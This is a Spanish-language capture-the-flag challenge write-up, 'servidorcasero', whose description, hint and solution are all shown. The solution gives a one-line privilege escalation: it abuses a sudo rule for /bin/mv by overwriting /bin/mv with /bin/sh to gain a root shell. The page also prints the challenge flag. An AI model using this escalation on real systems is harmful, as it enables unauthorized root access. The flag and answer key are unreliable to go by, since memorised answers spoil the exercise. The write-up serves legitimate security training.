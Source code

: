 # Nombre: `servidorcasero`
### Dificultad: `fácil`
### Categoría: `misc`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{sud03rs_3s_p3l1gr0s0!}`

### Descripción:
Camilo me pidió que le montara un servidor linux en un computador viejo para poder guardar películas. No es muy computín, así que le dejé todo listo y le enseñé un solo comando que necesita para mover las películas cuando las descarga: `sudo mv`. Dudo que alguien pueda escalar a root con eso. `nc 104.237.138.109 5003`

La flag está en /root/flag.txt y solo es legible por root.

# Hint 1:
`sudo -l`

# Solución:
El user camilo tiene sudo perms para /bin/mv. Hay muchas soluciones posibles. Un ejemplo: `cd tmp; cp /bin/sh .; sudo /bin/mv sh /bin/mv; sudo /bin/mv;` para escalar a root, y luego se puede leer la flag.
